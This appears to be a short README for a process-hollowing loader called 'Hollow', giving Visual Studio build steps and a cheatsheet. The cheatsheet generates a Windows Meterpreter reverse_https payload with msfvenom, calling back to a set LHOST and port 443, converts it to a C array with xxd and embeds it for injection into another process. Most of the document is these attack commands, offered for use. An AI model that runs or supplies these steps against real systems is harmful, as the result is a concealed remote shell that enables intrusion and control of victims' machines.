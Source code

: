 ## Hollow Build Instructions - Visual Studio

1. Create new visual studio project.
2. Add MSFPayload.h and ProcessHollowing.c
3. Update the payload within MSFPayload.h appropriately

## MSFPayload Build Cheatsheet
0. Generate MSF payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=443 -f exe -o msf.exe
```

1. Create C array.
```
xxd -i msf.exe
```

2. Copy and paste msfpayload in MSFPayload.h

3. Update variable names as appropriate.

